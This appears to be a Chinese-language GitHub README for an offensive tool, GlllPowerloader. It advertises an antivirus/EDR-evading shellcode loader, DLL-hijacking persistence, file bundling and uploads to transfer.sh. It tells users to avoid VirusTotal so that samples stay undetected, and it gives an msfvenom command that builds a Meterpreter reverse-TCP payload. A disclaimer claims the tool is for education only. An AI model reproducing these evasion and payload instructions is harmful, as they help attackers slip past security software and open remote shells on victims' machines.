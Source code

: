 # GlllPowerloader


- [1.前言](#1前言)

- [2.功能](#2功能)

- [3.使用](#3使用)
  - [0x01.环境安装](#0x01环境安装)
  
  - [0x02.shellcode loader的使用](#0x02shellcode-loader的使用)
  
  - [0x03.Automation\_loader](#0x03automation_loader)
  
  - [0x04.文件格式转换](#0x04文件格式转换)
  
  - [0x05.自动化生成代理DLL](#0x05自动化生成代理dll)
  
  - [0x06.文件捆绑和上传](#0x06文件捆绑和上传)
  
    
  
- [4.更新](#4更新)

- [5.免责声明](#5免责声明)

- [6.结语](#6结语)

# 1.前言

* 不要上传Virus total相关的在线沙箱平台，请下载相关的AV/EDR去测试它们的可靠性

* 视频讲解：https://www.bilibili.com/video/BV1RK411z7XA/  欢迎点赞关注



# 2.功能



|      功能      |                 描述                  |
| :------------: | :-----------------------------------: |
|  1.免杀加载器  |    拥有十种以上的shellcode加载方式    |
| 2.文件格式转换 |      Windows中文件格式之间的转换      |
|   3.权限维持   | 生成代理劫持的Dll，用于持久化渗透测试 |
|   4.文件捆绑   |     1.捆绑文件异步执行2.上传文件      |



# 3.使用

## 0x01.环境安装

您必须下载并安装以下环境：

1.Mingw64(C/C++)的编程环境：https://github.com/niXman/mingw-builds-binaries/releases/download/12.2.0-rt_v10-rev2/x86_64-12.2.0-release-posix-seh-msvcrt-rt_v10-rev2.7z

将bin目录添加至环境变 量即可

2.Golang编程环境：https://go.dev/dl/go1.19.4.windows-amd64.msi

3.Nim编程环境：

Nim下载：https://nim-lang.org/install.html

将bin目录添加至环境变量

您还需要下载Winim：https://github.com/khchen/winim

```
cd winim-master
nimble install
```

如果您在windows中安装了Git，就可以这样使用：

```
git clone https://github.com/INotGreen/GlllPowerloader.git
cd GlllPowerLoader-master
pip install -r requirements.txt
start.bat
```



## 0x02.shellcode loader的使用

大部分已经不能免杀了，不过稍微改一下基本上都能过，建议使用无阶段的shellcode（Stageless）

Metasploit:

```
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.1.0 LPORT=4488 -f raw -o payload.bin
```



## 0x03.Automation_loader



## 0x04.文件格式转换



## 0x06.文件托管

将文件上传到https://transfer.sh/



# 4.更新

[+] 2022年12.21，Powerloader发布

[+]2023 年11.15，删除冗余的功能，优化代码，更新免杀


# 5.免责声明

该工具仅用于网络安全教育和研究，禁止用于非法途径，我对您由使用或传播等由此软件引起的任何行为和/或损害不承担任何责任。您对使用此软件的任何行为承担全部责任，并承认此软件仅用于教育和研究目的。下载本软件或软件的源代码，您自动同意上述内容。

# 6.致谢

在编写Powerloader时学习了很多前辈的项目，在此我非常感谢他们

关于C/C++的加载器 ，我参考了它的部分代码和框架格式，这非常有意义：https://github.com/icyguider/Shhhloader

还有Nim惊人的项目：https://github.com/byt3bl33d3r/OffensiveNim

感谢：https://github.com/danielbohannon/Invoke-DOSfuscation

https://github.com/peewpw/Invoke-PSImage
